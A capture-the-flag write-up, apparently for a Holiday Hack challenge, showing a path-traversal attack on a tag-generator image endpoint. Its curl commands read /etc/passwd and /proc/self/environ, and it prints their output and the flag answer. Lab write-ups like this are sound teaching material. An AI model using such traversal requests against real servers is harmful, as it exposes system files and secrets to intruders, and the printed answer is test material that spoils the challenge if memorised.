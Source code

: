 For fun, let's try and display the `/etc/passwd` file.  Since this works we know any file the web server has permissions to view will be displayed:

```
jemurray@jasons-mbp ~ % curl https://tag-generator.kringlecastle.com/image\?id=../etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
app:x:1000:1000:,,,:/home/app:/bin/bash
```

The goal of this challenge is to get an environment variable, I suspect there is a remote code exploit in the `app.rb` script, but there is an easier way to pull an environment variable.

The `/proc` filesystem in Linux contains information about running processes.  The web server process probably contains the `environment` variable, we need to examine.   By examining the `/proc/self/environ`, it will return all environment variables for the web server process:

```
jemurray@jasons-mbp ~ % curl https://tag-generator.kringlecastle.com/image\?id=../proc/self/environ --output -
PATH=/usr/local/bundle/bin:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/binHOSTNAME=cbf2810b7573RUBY_MAJOR=2.7RUBY_VERSION=2.7.0RUBY_DOWNLOAD_SHA256=27d350a52a02b53034ca0794efe518667d558f152656c2baaf08f3d0c8b02343GEM_HOME=/usr/local/bundleBUNDLE_SILENCE_ROOT_WARNING=1BUNDLE_APP_CONFIG=/usr/local/bundleAPP_HOME=/appPORT=4141HOST=0.0.0.0GREETZ=JackFrostWasHereHOME=/home/app%
```


## Helpful Advice

Have persistence.  I spent hours trying URL permutations after looking at the initial `app.js` code.  


## Answer

Command to get the variable:

```
curl https://tag-generator.kringlecastle.com/image\?id=../proc/self/environ --output -
```

Answer:

```
GREETZ=JackFrostWasHere
```
